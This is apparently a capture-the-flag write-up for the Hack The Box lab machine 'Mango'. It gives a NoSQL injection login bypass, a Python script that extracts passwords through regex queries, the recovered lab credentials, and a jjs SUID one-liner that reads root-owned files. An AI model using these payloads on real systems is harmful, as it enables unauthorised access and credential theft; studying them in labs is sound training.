 # Mango

## Preparation

Added IP to /etc/hosts as "mango.htb"

## Recon

Starting with nmap
```
nmap -sV -sC mango.htb
```

### HTTPS (443/TCP)

- Domain name in cert - staging-order.mango.htb
- Image refernce in source code - https://github.com/MangoDevelopers/mango-new-logo/raw/master/NewMango.jpg
	- MangoDB?
- Search Engine Screen
	- No reflective input
	- Googling "MongoDB SQL Injection" brings up a lot of results as NoSQL, testing those

It's using virtual host routing, put staging-order.mango.htb in /etc/hosts and visiting it returns a login screen

Auth bypass from PayloadAllTheThings worked: username[$ne]=toto&password[$ne]=toto

email found: admin@mango.htb

I can enumerate users by using username=toto&password[$ne]=toto and replacing the username value, if it returns 302 then the username is valid

## Cracking the Perimeter

Used cewl to build a wordlist of users, added the following
```
admin
Mango
mango
Sweet
sweet
Juicy
juicy
Admin
admin
admin.htb
```
```
import json, requests, urllib3, string, urllib

host = str("http://staging-order.mango.htb/index.php")
header = {'content-type': 'application/x-www-form-urlencoded'}
userlist = []
passlenlist = []
passlist = []
chars = string.ascii_letters + string.digits + string.punctuation
users = open('users.txt','r')

for user in users:
	user = user.rstrip()
	payload = str("username=%s&password[$ne]=admin&login=login" % user)
	r = requests.post(host, data = payload, headers = header, verify = False, allow_redirects = False)
	if r.status_code == 302:
		print(str("Found user: %s" % user))
		userlist.append(user)

for user in userlist:
	for i in range(1,64):
		payload = str("username=%s&password[$regex]=^.{%s}&login=login" % (user,str(i)))
		r = requests.post(host, data = payload, headers = header, verify = False, allow_redirects = False)
		if r.status_code == 200:
			print(str("%s's password is %s characters" % (user,i-1)))
			passlenlist.append(i-1)
			break

for user in userlist:
	password = str("")
	passwordlen = passlenlist[int(userlist.index(str(user)))]
	while int(len(password)) <= int(passwordlen):
		for c in chars:
			if c not in ['*','+','.','?','|','&']:
				payload = str("username=%s&password[$regex]=^%s&login=login" % (str(user),str(password + c)))
				r = requests.post(host, data = payload, headers = header, verify = False, allow_redirects = False)
				print(str("I tried %s for %s" % (password + c, user)))
				if r.status_code == 302:
					password += c
				if int(len(password)) == int(passwordlen):
					passlist.append(password)
					continue

passlist = list(dict.fromkeys(passlist))
for i in range(0,len(userlist)):
	print(str("%s's password is %s" % (userlist[i],passlist[i])))
```

Users Found (case sensitve)
- admin
- mango

mango's password is `h3mXK8RhU~f{]f5H` and admin's password is `t9KcS3>!0B#2`

`ssh:mango:h3mXK8RhU~f{]f5H`
`local:admin:t9KcS3>!0B#2`

## Privilege Escalation

SUID on jjs, root owns, admin can run

`echo 'var BufferedReader = Java.type("java.io.BufferedReader");var FileReader = Java.type("java.io.FileReader");var br = new BufferedReader(new FileReader("/root/root.txt"));while ((line = br.readLine()) != null) { print(line); }' | jjs`
